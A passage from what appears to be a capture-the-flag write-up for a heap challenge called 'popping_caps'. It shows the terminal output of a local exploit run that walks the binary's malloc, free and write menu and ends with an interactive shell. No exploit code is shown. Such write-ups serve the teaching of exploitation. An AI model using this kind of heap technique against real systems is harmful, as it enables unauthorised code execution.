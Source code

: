 ```
[1] Malloc
[2] Free
[3] Write
[4] Bye
Your choice:
 
Read me in:
 
BANG!
You have 2 caps!
[1] Malloc
[2] Free
[3] Write
[4] Bye
Your choice:
 
How many:
 
BANG!
You have 1 caps!
[1] Malloc
[2] Free
[3] Write
[4] Bye
Your choice:
 
Read me in:
[*] Switching to interactive mode
 
BANG!
Bye!$ w
 22:34:28 up 21 min,  1 user,  load average: 0.03, 0.03, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               22:13   ?xdm?  26.87s  0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core  exploit.py  libc.so.6  peda-session-popping_caps.txt  popping_caps
$
[*] Interrupted
[*] Stopped process './popping_caps' (pid 3821)
```

Just like that, we popped a shell!
